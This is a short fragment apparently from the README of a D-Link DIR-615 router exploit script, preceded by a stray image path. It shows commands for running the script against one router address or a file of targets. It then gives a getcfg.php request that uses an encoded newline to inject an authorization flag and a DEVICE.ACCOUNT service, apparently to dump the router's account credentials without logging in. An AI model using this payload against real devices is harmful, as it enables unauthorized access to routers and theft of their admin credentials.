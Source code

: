 python DIR-615.py -u http://192.168.0.1

python DIR-615.py -r file.txt

                                      Use this Method
192.168.4.1/getcfg.php?a=%0A_POST_SERVICES=DEVICE.ACCOUNT%0AAUTHORIZED_GROUP=1
